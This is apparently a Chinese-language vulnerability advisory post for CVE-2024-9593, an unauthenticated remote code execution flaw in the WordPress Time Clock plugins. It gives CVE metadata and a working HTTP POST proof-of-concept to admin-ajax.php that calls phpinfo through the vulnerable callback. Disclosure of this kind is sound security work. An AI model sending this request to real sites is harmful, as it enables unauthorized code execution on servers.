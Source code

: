 #  CVE-2024-9593 WordPress 远程代码执行   
 TtTeam   2025-01-23 04:32  
  
        Time Clock <= 1.2.2 & Time Clock Pro <= 1.1.4 - 未经身份验证（受限）远程代码执行  
  
        WordPress 的 Time Clock 插件和 Time Clock Pro 插件在 1.2.2 及以下版本（适用于 Time Clock）和 1.1.4 版本（适用于 Time Clock Pro）中存在通过“etimeclockwp_load_function_callback”函数执行远程代码的漏洞。这允许未经身份验证的攻击者在服务器上执行代码。无法指定调用函数的参数。  
  
```
Published: 2024-10-18 00:00:00
CVE: CVE-2024-9593
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
CVSS Score: 8.3
Slugs: time-clock-pro, time-clock
```  
  
```
POST /wp-admin/admin-ajax.php?action=etimeclockwp_load_function HTTP/2
Host: wpscan-vulnerability-test-bench.ddev.site
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
function=phpinfo
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3nxArfVictvYKxM66MTHcxPibB6SesuEqG4eibLrMciao1De0sGibZtU6aovZQM2EnQKuHztp6e9WPeWA/640?wx_fmt=png&from=appmsg "")  
  
  
  
